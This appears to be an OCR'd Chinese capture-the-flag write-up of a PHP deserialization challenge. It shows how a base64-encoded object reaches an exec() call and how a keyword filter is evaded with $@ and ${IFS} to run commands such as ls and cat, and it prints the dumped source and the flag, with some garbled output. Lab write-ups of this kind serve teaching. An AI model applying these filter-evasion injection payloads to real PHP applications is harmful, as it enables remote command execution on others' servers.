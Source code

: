 >
>    $ctf=@$_POST['ctf'];
>    @unserialize(base64_decode($ctf));
>    ?>
> ```
>
> 2. 传一个序列化对象，base64编码，反序列化的时候调用wakeup，然后调用waf，在对象销毁时调用destruct函数，call_user_func_array，第一个参数为函数名，这个函数将第二个参数作为回调函数的参数执行第一个函数，当传入的method参数为ping时才会执行类中的ping函数，传入的args参数为在ping中调用的系统命令，要注意的是，第二个参数一定是数组
> 3. 看到了waf函数中的正则表达式过滤，这里执行的是系统命令，而在linuxshell编程中，$@代表一个空变量
>    ${IFS}代表空格，构造
>
>    new ease("ping",array("l$@s"));
> 4. 得到一个目录，flag_1s_here
> 5. 了解到反单引号的作用，将反单引号中的内容执行一遍再继续执行当前命令
>
>    ease("ping",array('ca$@t${IFS}find'));   得到：
>
>    ```
>    array(42) { [0]=> string(5) " string(52) "//$cyberpeace{de5b1ceda0e73194b62ee6dc61bad117} string(25) "highlight_file(__FILE__);" [3]=> string(0) "" [4]=> string(11) "class ease{" [5]=> string(0) "" [6]=> string(20) " private $method;" [7]=> string(18) " private $args;" [8]=> string(42) " function __construct($method, $args) {" [9]=> string(32) " $this->method = $method;" [10]=> string(28) " $this->args = $args;" [11]=> string(5) " }" [12]=> string(0) "" [13]=> string(26) " function __destruct(){" [14]=> string(53) " if (in_array($this->method, array("ping"))) {" [15]=> string(75) " call_user_func_array(array($this, $this->method), $this->args);" [16]=> string(9) " }" [17]=> string(5) " }" [18]=> string(0) "" [19]=> string(23) " function ping($ip){" [20]=> string(27) " exec($ip, $result);" [21]=> string(26) " var_dump($result);" [22]=> string(5) " }" [23]=> string(0) "" [24]=> string(23) " function waf($str){" [25]=> string(87) " if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {" [26]=> string(24) " return $str;" [27]=> string(16) " } else {" [28]=> string(30) " echo "don't hack";" [29]=> string(9) " }" [30]=> string(5) " }" [31]=> string(0) "" [32]=> string(24) " function __wakeup(){" [33]=> string(42) " foreach($this->args as $k => $v) {" [34]=> string(45) " $this->args[$k] = $this->waf($v);" [35]=> string(9) " }" [36]=> string(5) " }" [37]=> string(1) "}" [38]=> string(0) "" [39]=> string(20) "$ctf=@$_POST['ctf'];" [40]=> string(34) "@unserialize(base64_decode($ctf));" [41]=> string(2) "?>" }
>    ```

    cyberpeace{de5b1ceda0e73194b62ee6dc61bad117}
